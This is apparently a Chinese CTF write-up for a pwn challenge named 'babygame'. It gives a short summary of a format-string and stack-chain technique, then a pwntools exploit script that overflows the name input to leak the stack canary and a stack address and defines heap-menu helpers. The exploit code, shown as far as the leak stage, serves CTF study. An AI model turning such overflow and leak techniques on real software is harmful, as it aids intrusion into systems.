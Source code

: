 ### 总结

这个题目当时卡在如何修改返回地址上，忽略了除了利用程序本身的链子外，可以使用fmt前的写入将自己布置的栈指针的链子指向任意地址，导致没有做出来，最后还是靠了ha1vk师傅指点，本地通了。

### exp

```python
# -*- coding: UTF-8 -*-
from pwn import *

context.log_level = 'debug'
context.terminal = ["/usr/bin/tmux","sp","-h"]

context(arch='amd64')
#io = remote('', )
# libc = ELF('./libc-2.31.so')
io = process('babygame',env = {'LD_PRELOAD':'./libc-2.31.so'})
#io = remote('120.25.205.249',39260)
libc = ELF('./libc-2.31.so')

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda a=False  : io.recvline(a)
ru = lambda a,b=True : io.recvuntil(a,b)
rn = lambda x   : io.recvn(x)
sn = lambda x   : io.send(x)
sl = lambda x   : io.sendline(x)
sa = lambda a,b   : io.sendafter(a,b)
sla = lambda a,b  : io.sendlineafter(a,b)
irt = lambda   : io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s   : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data  : u32(data.ljust(4, '\x00'))
uu64 = lambda data  : u64(data.ljust(8, '\x00'))
ur64 = lambda data  : u64(data.rjust(8, '\x00'))
def add(idx,size):
 sl('1')
 sla('Index?\n',str(idx))
 sla('Size?\n',str(size))
def show(idx):
 sl('2')
 sla('Index?\n',str(idx))
 
def edit(idx,content):
 sl('3')
 sla('Index?\n',str(idx))
 sa('content:\n',content)
  
def delete(idx):
 sl('4')
 sla('Index?\n',str(idx))

# dbg()
sa('your name:\n','a'*0x108+'a')
ru('a'*0x109)
canary = u64(rn(7).rjust(8,'\x00'))
stack = u64(rn(6).ljust(8,'\x00'))

# data = io.recvuntil("\x7f")[-13:].ljust(13,"\x00")
# canary = data[:14]
# libcbase = data[14:26]
# print libcbase
lg('stack')
lg('canary')
```